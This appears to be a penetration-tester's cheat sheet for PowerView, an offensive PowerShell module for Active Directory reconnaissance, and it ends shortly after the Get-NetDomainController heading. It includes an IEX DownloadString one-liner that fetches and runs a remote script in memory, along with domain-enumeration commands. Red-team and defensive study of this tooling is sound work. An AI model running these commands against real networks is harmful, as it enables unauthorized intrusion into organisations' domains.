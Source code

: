 # [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

> Offensive PowerShell module for enumeration and exploitation of an Active Directory environment.

---

## Import PowerView

To use `PowerView`, you must first import it into the current PowerShell session.

To do this in a normal PowerShell prompt on the host:

```powershell
Import-Module -Name $PATH_TO_POWERVIEW.ps1
```

To import a remotely hosted PowerView:

```powershell
IEX (New-Object Net.Webclient).DownloadString($HTTP_URL_TO_POWERVIEW_SCRIPT); $POWERVIEW_COMMAND_HERE
```

Note `$POWERVIEW_COMMAND_HERE`. Remote imports only last for that line. Thus, all PowerView commands will need to be on the same line (separated by semicolons).

---

## Query a Foreign Domain

Requires network connectivity to the foreign domain's domain controller and a security context capable of issuing LDAP queries to that domain controller.

Use the `-Domain $DOMAIN_NAME` flag. Use the `-Server $FQDN_OR_IP` to specify the foreign domain's domain controller. Use th `-Credential` flag to specify an alternate credential from the current security context.

---

## Get-NetDomain

Gathers information about the domain, including forest name, domain controllers, and domain name. A more concise version of the ActiveDirectory module's *Get-ADDomain*.

```powershell
Get-NetDomain
```

---

## Get-NetDomainController

Lists all the domain controllers in the network.
